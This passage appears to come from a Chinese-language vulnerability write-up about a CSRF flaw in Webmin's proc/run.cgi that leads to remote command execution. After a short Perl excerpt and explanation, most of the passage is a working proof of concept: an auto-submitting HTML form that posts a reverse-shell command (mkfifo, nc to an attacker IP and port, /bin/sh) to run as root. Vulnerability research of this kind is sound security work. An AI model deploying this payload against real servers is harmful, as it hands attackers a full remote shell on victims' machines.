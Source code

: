 ```bash
        exit;
        }
    &redirect("index_tree.cgi");
    }
else {
    # run and display output..
    &ui_print_unbuffered_header(undef, $text{'run_title'}, "");
    print "<p>\n";
    print &text('run_output', "<tt>".&html_escape($in{'cmd'})."</tt>"),"<p>\n";
    print "<pre>";
    $got = &safe_process_exec_logged($cmd, 0, 0,
                     STDOUT, $in{'input'}, 1);
    if (!$got) { print "<i>$text{'run_none'}</i>\n"; }
    print "</pre>\n";
    &ui_print_footer("", $text{'index'});
    }
&webmin_log("run", undef, undef, \%in);

```

通过分析源码我们得知代码没有针对CSRF的保护措施，因此我们只需很简单的CSRF构造即可触发该漏洞，并且由于该漏洞触发点是run.cgi文件，我们可以直接通过CSRF构建RCE（远程命令执行），这是非常理想的漏洞利用场景。

#### 漏洞利用

接下来我们通过构造PoC，尝试利用这个漏洞。

首先我们来构造一个HTML文件， **这个HTML的核心目标是进行form表单的自动提交**，源码如下：

```plain
<html>
        <head>
            <meta name="referrer" content="never">
        </head>
  <body>
    <form action="http://your_mituan_app_address/proc/run.cgi" method="POST">
      <input type="hidden" name="cmd" value="mkfifo /tmp/378; nc your_ip your_port 0</tmp/378 | /bin/sh >/tmp/378 2>&1; rm /tmp/378" />
      <input type="hidden" name="mode" value="0" />
      <input type="hidden" name="user" value="root" />
      <input type="hidden" name="input" value="" />
      <input type="hidden" name="undefined" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>

</html>

```
